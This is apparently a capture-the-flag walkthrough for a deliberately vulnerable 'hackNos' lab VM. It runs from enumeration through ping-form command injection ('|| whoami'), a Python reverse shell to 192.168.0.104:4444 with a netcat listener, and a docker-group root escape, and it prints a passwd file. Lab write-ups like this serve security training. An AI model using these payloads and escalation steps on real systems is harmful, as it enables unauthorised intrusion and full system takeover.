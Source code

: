 ## Enumeration
- VM IP: `sudo netdiscover`
	* `192.168.0.12     08:00:27:89:20:c1      1      60  VMWare`
- VM info: `nmap -A 192.168.0.12`
	* `21/tcp open  ftp`  Anonymous log-in is on. --> banner "ftp 'Security@hackNos'"
	* `22/tcp open  ssh`
	* `80/tcp open  http`

- web server info: dirb -w http://192.168.0.12 & 
	* http://192.168.0.12/index.html
	* http://192.168.0.12/css/style.css
	* http://192.168.0.12/css/2.jpg

- web server 192.168.0.12/5ecure login using the :
	* admin:Security@hackNos <-- Banner

- web server info: dirb -w http://192.168.0.12/5ecure		
	* http://192.168.0.12/5ecure/index.html
		form POSTs data to output.php
	* http://192.168.0.12/5ecure/css/style.css
	* http://192.168.0.12/5ecure/css/2.jpg
	* http://192.168.0.12/5ecure/output.php
		simple ping <ip> function



## Penetration
- 192.168.0.12/5ecure/out.php -> exec(ping $ip) -> injection 
* $ip = || command  # /&&/& + command' didn't work, char escape or header conflict
- ip=|| whoami 
	* www-data
- ip=|| export
	* export APACHE_LOCK_DIR='/var/lock/apache2'
	* export APACHE_LOG_DIR='/var/log/apache2'
	* export APACHE_PID_FILE='/var/run/apache2/apache2.pid'
	* export APACHE_RUN_DIR='/var/run/apache2'
	* export APACHE_RUN_GROUP='www-data'
	* export APACHE_RUN_USER='www-data'
	* export INVOCATION_ID='e514c3c1dbef4f068ab8124007ec59a6'
	* export JOURNAL_STREAM='9:21541'
	* export LANG='C'
	* export PATH='/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin'
	* export PWD='/var/www/recon/5ecure'		
- ip=|| ls 
	* system navigation
- ip=|| vi *file*
	* privilege check

- intresting files:
	* /var/opt/python.py
	* /etc/passwd

## CLI 
_In the end, was not necessary_
- python.py on Recon Force server is creating a connection to 192.168.0.104:4444 and runs an interactive bash.
- configurate host/attacking machine network settings
	* add a new network connection and manualy set it up:
		- IP: 192.168.0.104
		- Netmask: 255.255.255.0
		- Gateway: 192.168.0.1
		- connect to the network using the new interface
- run nc -lvp 4444 to initiate a listener on 4444
- on 192.168.0.12/5ecure/index.php ping scan, run '|| python /var/opt/python.py' 
- tty: python -c 'import pty; pty.spawn("/bin/bash")'
- getent group 
	* docker:x:119:   # note: passwd --> recon:x:1000:119:rahul:/home/recon:/bin/bash
	* recon user gid = docker 

## Escelation
- ssh 192.168.0.12 -l recon
	* pass: Security@hackNos
- docker run -it --privileged --name=ctf -v /:/host:rw alpine sh
- container: cd /host

## Intresting files

- /var/opt/python.py:

	import socket
	import subprocess
	import os
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect(("192.168.0.104", 4444))
	os.dup2(s.fileno(), 0)
	os.dup2(s.fileno(), 1)
	os.dup2(s.fileno(), 2)
	p = subprocess.call(["/bin/bash", "-i"])

- /var/etc:

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:106:111::/run/uuidd:/usr/sbin/nologin
tcpdump:x:107:112::/nonexistent:/usr/sbin/nologin
landscape:x:108:114::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
recon:x:1000:119:rahul:/home/recon:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
ftp:x:111:117:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
mysql:x:112:118:MySQL Server,,,:/nonexistent:/bin/false
dnsmasq:x:113:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
